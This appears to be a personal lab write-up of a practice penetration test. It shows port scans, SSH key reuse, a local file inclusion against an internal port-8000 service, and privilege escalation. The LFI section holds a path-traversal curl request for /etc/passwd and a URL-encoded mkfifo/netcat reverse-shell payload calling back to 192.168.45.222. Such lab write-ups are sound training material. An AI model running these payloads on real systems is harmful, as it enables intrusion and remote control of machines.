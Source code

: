 Linux - ttl=61

# rustscan
```
PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack ttl 61
443/tcp  open  https        syn-ack ttl 61
2222/tcp open  EtherNetIP-1 syn-ack ttl 61

```

# nmap
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-03 13:33 EDT
Nmap scan report for 192.168.213.246
Host is up (0.12s latency).

PORT     STATE SERVICE  VERSION
80/tcp   open  http     Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Code Validation
|_http-server-header: Apache/2.4.52 (Ubuntu)
443/tcp  open  ssl/http Apache httpd 2.4.52 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=demo
| Subject Alternative Name: DNS:demo
| Not valid before: 2022-10-12T07:46:27
|_Not valid after:  2032-10-09T07:46:27
|_http-title: Code Validation
2222/tcp open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 42:2d:8d:48:ad:10:dd:ff:70:25:8b:46:2e:5c:ff:1d (ECDSA)
|_  256 aa:4a:c3:27:b1:19:30:d7:63:91:96:ae:63:3c:07:dc (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.18 (87%), Linux 4.15 - 5.8 (87%), Linux 5.0 (87%), Linux 5.0 - 5.4 (87%), Linux 2.6.32 (87%), Linux 2.6.39 (87%), Linux 3.10 - 3.12 (87%), Linux 3.4 (87%), Linux 3.7 (87%), Linux 4.4 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 2222/tcp)
HOP RTT      ADDRESS
1   74.36 ms 192.168.45.1
2   74.32 ms 192.168.45.254
3   74.42 ms 192.168.251.1
4   74.42 ms 192.168.213.246

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.44 seconds

```

# same creds

tried same ssh_keys for this as well for anita and it worked

checked everything but nothing worked then I have seen **internal services**!

![[Pasted image 20240605193144.png]]

now I can see 8000 port

### 8000

checked every files and folders with anita like /opt /tmp /var

`/crash` & `/tmp` got my attention inside /var

![[Pasted image 20240605194356.png]]

There was already test.php available so my first thought it **LFI**!

### LFI

confirmed with curl
```
curl http://240.0.0.1:8000/../../../../../etc/passwd
```

now try to access webpage at `../var/crash/test.php`
it was just cmd shell

#### Two paths

1. utilize what's given to me with test.php&cmd=ls
2. upload my shell and get revshell

```
http://240.0.0.1:8000/backend/?view=../../../../../../var/crash/test.php&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.45.222%204444%20%3E%2Ftmp%2Ff
```

![[Pasted image 20240605194824.png]]

uploaded my `shell.php` pentest monkey

### priv esc

got www-data shell

user can run everything as root!

![[Pasted image 20240605195013.png]]

